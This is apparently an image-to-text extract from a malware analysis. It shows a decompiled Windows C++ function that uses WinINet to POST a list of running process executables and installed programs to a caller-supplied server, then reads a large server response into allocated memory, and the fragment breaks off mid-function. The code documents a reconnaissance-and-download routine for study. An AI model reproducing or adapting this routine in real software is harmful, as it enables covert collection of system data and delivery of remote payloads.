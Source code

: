 ```cpp
  hConnect = 0;
  hRequest = 0;
  Buffer = 60000;
  dwFlags = -2075655680;
  v15 = 0;
  dwBufferLength = 4;
  buff = 0;
  realBufferLength = 0;
  strcpy(szHeaders, "Content-Type: application/x-www-form-urlencoded");
  if ( !serverResponseOut || !lpdwNumberOfBytesRead )
    return -2147467259;
  InternetSetOptionA(0, 6u, &Buffer, 4u);
  InternetSetOptionA(0, 5u, &Buffer, 4u);
  InternetSetOptionA(0, 2u, &Buffer, 4u);
  hInternet = InternetOpenA(0, 0, 0, 0, 0);
  if ( !hInternet )
    return -2147467259;
  hConnect = InternetConnectA(hInternet, lpszServerName, 0x50u, 0, 0, 3u, 0, 0);
  if ( hConnect )
  {
    hRequest = HttpOpenRequestA(hConnect, IsGetReq == 0 ? "POST" : 0, lpszObjectName, 0, 0, 0, dwFlags, 0);
    if ( hRequest )
    {                                           // only send data to server if the caller specified IsGetReq = FALSE
      if ( IsGetReq
        || (ProcessHeap = GetProcessHeap(), (buff = HeapAlloc(ProcessHeap, 8u, 0x2800u)) != 0)
        && !AppendAllActiveProcessExeNames(buff, 10240)
        && !AppendInstalledProgramsInfo(buff, 0x2800u)
        && getRealBufferSize(buff, 0x2800u, &realBufferLength) >= 0 )
      {
        if ( HttpSendRequestA(hRequest, szHeaders, 0x2Fu, buff, realBufferLength)
          && HttpQueryInfoA(hRequest, 0x20000013u, &v15, &dwBufferLength, 0) )
        {
          if ( httpStatusCodeOut )
            *httpStatusCodeOut = v15;
          if ( v15 == 200 )
          {
            *serverResponseOut = VirtualAlloc(0, 0x200000u, 0x1000u, 4u);
            if ( *serverResponseOut )
            {
              if ( InternetReadFile(hRequest, *serverResponseOut, 0x200000u, lpdwNumberOfBytesRead) )
              {
                v11 = 0;
              }
              else
              {
                VirtualFree(*serverResponseOut, 0, 0x8000u);
                *serverResponseOut = 0;
              }
            }
          }
        }
      }
    }
  }
  if ( buff )
  {
    v8 = GetProcessHeap();
    HeapFree(v8, 0, buff);
  }
  if ( hRequest )
```